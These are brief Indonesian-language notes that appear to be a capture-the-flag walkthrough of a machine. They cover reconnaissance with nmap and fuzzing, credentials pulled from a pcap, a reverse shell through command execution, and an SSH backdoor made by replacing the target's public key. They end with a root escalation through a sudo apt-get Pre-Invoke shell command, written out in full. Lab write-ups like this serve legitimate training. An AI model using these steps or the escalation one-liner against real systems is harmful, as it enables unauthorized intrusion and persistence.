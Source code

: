 # boot:
1. scan nmap 22 80 kebuka -> fuzz ada mail yg isinya ada pcap juga -> wget aja analyze di wireshark
2. ada log login ada creds buatt login juga sama ada host tempat loginnya subdo nya
3. login aja bisa execute command -> revshell di command itu -> cari2 ada ssh public key di /opt backup
4. gada priv key tapi jadi pub key nya gatau buat apa 
5. backdooring ssh -> sudo ssh-keygen -t rsa -b 4096 -> nanti tulis aja jake 
6. dah jadi -> gantiin ssh pubb yg di target -> echo "pub mu yg dari gen" > target.pub
7. sudo ssh -i namatadi nama@ip -> dah jadi 

# PE :
1. sudo -l -> cari gtfobins yang apt-get 
2. ada sudo ygg ini run aja -> apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
3. klaim root
